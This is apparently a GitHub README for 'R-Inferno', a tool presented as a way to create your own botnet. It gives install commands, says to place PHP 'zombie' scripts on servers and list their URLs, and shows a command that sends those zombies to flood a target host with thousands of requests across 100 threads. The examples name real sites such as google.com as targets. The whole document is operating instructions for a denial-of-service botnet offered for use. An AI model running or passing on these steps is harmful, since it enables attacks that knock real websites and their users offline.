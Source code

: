 # R-Inferno - Create Your Own BotNet

![Screenshot](Screenshot.png)

# Installation
```bash
git clone https://github.com/Rezn0y/R-Inferno.git
cd R-Inferno
pip install -r requirements.txt
```

# Making zombies
Go to your server and upload the Bot.php and RNet.php files. Then, take your zombie URL and add it to Bot.txt as shown in the examples below:
```bash
Sample Bots:
https://google.com/RNet.php?Send=
https://youtube.com/RNet.php?Send=
https://kick.com/RNet.php?Send=
https://yandex.com/RNet.php?Send=
https://github.com/RNet.php?Send=
```
Add them one below the other, then start the attack with R-Inferno.py.

# Options
R-Inferno.py
```bash
--list=(list) - List of zombies
--send=(command) - Command to send zombies
--threads=(number) - Number of threads
```
Bot.php
```bash
--host=(google.com) - Target Host
--req=(number) - Number of requests to be sent
```

# Usage
Usage example:
```bash
python R-Inferno.py --list=Bot.txt --threads=100 --send='--host=google.com --req=1000'
```
